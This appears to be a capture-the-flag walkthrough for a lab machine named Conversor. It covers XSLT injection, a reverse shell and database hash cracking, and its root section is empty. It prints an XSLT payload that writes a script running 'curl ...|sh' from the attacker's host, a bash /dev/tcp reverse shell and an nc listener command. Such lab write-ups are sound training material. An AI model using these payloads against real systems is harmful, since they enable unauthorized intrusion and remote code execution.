





---

# COnversor (Easy): 10.10.11.92


---

## Quick Overview

a new linux machine, with easy difficulty, that put in front of us :

1. **XSLT Exploitation** → Database Access → **USER.TXT**
2. **Needrestart 3.7 Privilege Escalation** → [CVE-2024-48990 Auto Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### NMAP Enumeration

as with every machine we start with the nmap scan, that show as a classic 22/80 ports.



we go to conversor web page, as first sight we see XML converation via XSLT, with a small round with the discover the source code in the About page.

in the Source code we got some valuabla informations, the most imprtants are :

1. XSLT is exploitable
2. you can run python scripts in the scripts directory, you can find this info in install.md
3. the users database is in instance directory

### First Step

so first of all we will start with a reverse shell, by writing a python script with the help of xslt file, that will use curl to connect to our machine, that have aleardy a python http server prepared, to copy a reverse shell script, and lunche it to get our initial login.

so upload this XSLT File:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

and we prepare a python http server by using the command `python3 -m http.server`, where the reverse shell script exist:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

and last thing, nc listener `nc -nlvp 9999`.

and by that we get our initial access, as you can see:



### DB Exploit

For the next step, we will copie the DB to our local machine so we can exploit it peacefully, so i launched a python http server in the victim machine to copy the DB:



i open the DB with sqlite browser, and found the user fismathack with it hashed password



### Final Touch

By cracking the hash via [CrackStation](https://crackstation.net), we can login with fismathack and via SSH and capture the USER.TXT flag.



---

## ROOT.TXT


